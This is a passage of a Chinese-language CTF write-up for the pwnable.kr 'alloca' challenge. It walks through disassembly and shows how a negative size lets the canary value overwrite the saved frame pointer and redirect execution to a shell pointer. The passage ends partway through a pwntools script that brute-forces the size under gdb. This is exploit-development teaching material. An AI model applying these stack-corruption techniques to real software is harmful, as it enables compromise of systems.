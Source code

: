 ```
; check_canary(*(_DWORD *)&buffer[size]);
.text:08048811                  mov     eax, ds:buffer
.text:08048816                  mov     edx, ds:size
.text:0804881C                  add     eax, edx
.text:0804881E                  mov     eax, [eax]
.text:08048820                  sub     esp, 0Ch        
.text:08048823                  push    eax
.text:08048824                  call    check_canary   
```
4. 根据 0x8048824 的 `call check_canary`，那么有此时 `[esp-0x1c] = g_canary`
5. 根据 0x8048823 的 `push eax`，那么有此时 `[esp-0x20] = g_canary`
6. 根据 0x8048820 的 `sub esp, 0ch`，那么有此时 `[esp-0x2c] = g_canary`

```
; v3 = alloca(16 * ((size + 34) / 0x10u));
.text:08048742                  add     esp, 10h
.text:08048745                  mov     eax, ds:size
.text:0804874A                  add     eax, 4
.text:0804874D                  lea     edx, [eax+0Fh]
.text:08048750                  mov     eax, 10h
.text:08048755                  sub     eax, 1
.text:08048758                  add     eax, edx
.text:0804875A                  mov     ecx, 10h
.text:0804875F                  mov     edx, 0
.text:08048764                  div     ecx
.text:08048766                  imul    eax, 10h
.text:08048769                  sub     esp, eax
```
7. 这一段就是 `alloc` 实现，`eax` 为 `16 * ((size + 34) / 0x10u)`，可以暂不考虑对齐问题，得到此时 `[esp-0x2c-(size+34)] = [esp-size-78] = g_canary`

```
.text:08048663                 lea     ecx, [esp+4]
.text:08048667                 and     esp, 0FFFFFFF0h
.text:0804866A                 push    dword ptr [ecx-4]
.text:0804866D                 push    ebp
.text:0804866E                 mov     ebp, esp
.text:08048670                 push    ecx
.text:08048671                 sub     esp, 4
```
8. 计算可得，0x804866E 时，此时 `[ebp-size-86] = g_canary`

因为我们的目的是 `[ebp-4] = shell_pointer+4`，因此 `g_canary=shell_pointer+4` 且 `[ebp-4]=[ebp-size-86]`，所以得到 `size = -82`。

当然因为没有考虑对齐问题，其实 `size` 为 -67 到 -82 都可以，只要 `(size+34)/16=-3` 即可。

### 暴力求解

我的方法就很纯粹了，因为手工计算这个很有可能计算半天还是错的，这就太尴尬了。

我的方法是每次 gdb 调试这个程序，输入猜测的 size，因为在 gdb 中，所以可以得到 main 函数的 `ebp` 和 `g_canary` 写入的地址，然后比对一下他们是否一样。

当然肯定不是手动 gdb，写一个脚本，猜测的 size 值从小到大试就完事了，代码如下，这个是我在 pwnable.kr 它的网站上运行的，所以 gdb 的行为不一样(主要是大部分 gdb 输出彩色，它这个不输出彩色)，所以不是拿来就能用，需要自己去调整。
```python
from pwn import *

results = []
for i in range(-100, -1):
    print(i)
    sh = process(['gdb', '/home/alloca/alloca'])
    sh.recvuntil('(gdb) ')
    sh.sendline('b *0x08048831')
    sh.recvuntil('(gdb) ')
    sh.sendline('b *0x080485FD')
    sh.recvuntil('(gdb) ')
```